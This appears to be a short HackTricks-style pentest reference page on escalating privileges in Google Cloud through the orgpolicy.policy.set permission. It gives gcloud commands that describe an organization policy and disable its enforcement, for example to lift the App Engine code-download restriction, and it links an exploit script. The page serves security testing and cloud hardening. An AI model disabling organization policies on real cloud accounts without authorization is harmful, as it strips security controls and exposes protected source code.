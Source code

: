 # GCP - Orgpolicy Privesc

{{#include ../../../banners/hacktricks-training.md}}

## orgpolicy

### `orgpolicy.policy.set`

An attacker leveraging **orgpolicy.policy.set** can manipulate organizational policies, which will allow him to remove certain restrictions impeding specific operations. For instance, the constraint **appengine.disableCodeDownload** usually blocks downloading of App Engine source code. However, by using **orgpolicy.policy.set**, an attacker can deactivate this constraint, thereby gaining access to download the source code, despite it initially being protected.

```bash
# Get info
gcloud resource-manager org-policies describe <org-policy> [--folder <id> | --organization <id> | --project <id>]

# Disable
gcloud resource-manager org-policies disable-enforce <org-policy> [--folder <id> | --organization <id> | --project <id>]
```

A python script for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/orgpolicy.policy.set.py).

## References

- [https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/](https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/)

{{#include ../../../banners/hacktricks-training.md}}
